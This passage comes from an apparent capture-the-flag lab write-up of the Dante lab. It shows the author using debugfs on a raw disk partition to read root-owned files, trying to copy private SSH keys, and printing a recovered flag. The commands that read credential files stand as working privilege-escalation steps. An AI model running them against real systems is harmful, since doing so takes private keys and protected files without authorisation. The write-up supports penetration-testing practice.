tmpfs           391M   32K  391M   1% /run/user/1000
tmpfs           391M  8
```

And now we should be able to read is as root:

```
ian@DANTE-NIX07:~$ debugfs -w /dev/sda5
debugfs -w /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
debugfs:  dump /home/lou/.ssh/id_rsa /tmp/lou_rsa
dump /home/lou/.ssh/id_rsa /tmp/lou_rsa
/home/lou/.ssh/id_rsa: File not found by ext2_lookup 
debugfs:  dump /root/flag.txt /tmp/yovecio.txt
dump /root/flag.txt /tmp/yovecio.txt
debugfs:  dump /root/.ssh/id_rsa /tmp/root.key
dump /root/.ssh/id_rsa /tmp/root.key
/root/.ssh/id_rsa: File not found by ext2_lookup 
debugfs:  dump /home/lou/Desktop/flag.txt /tmp/lou.txt
dump /home/lou/Desktop/flag.txt /tmp/lou.txt
/home/lou/Desktop/flag.txt: File not found by ext2_lookup 
debugfs:  exit
exit
debugfs: Unknown request "exit".  Type "?" for a request list.
debugfs:  quit
quit
```

And another flag:

```
cat: yo: No such file or directory
ian@DANTE-NIX07:/tmp$ cat yovecio.txt
cat yovecio.txt
DANTE{g0tta_<3_ins3cur3_GROupz!}
ian@DANTE-NIX07:/tmp$
```

Here I tried to check for other Addresses on the machine 172.16.3.x/24 but is not working not sure how to proceed here.

&nbsp;

&nbsp;

&nbsp;

&nbsp;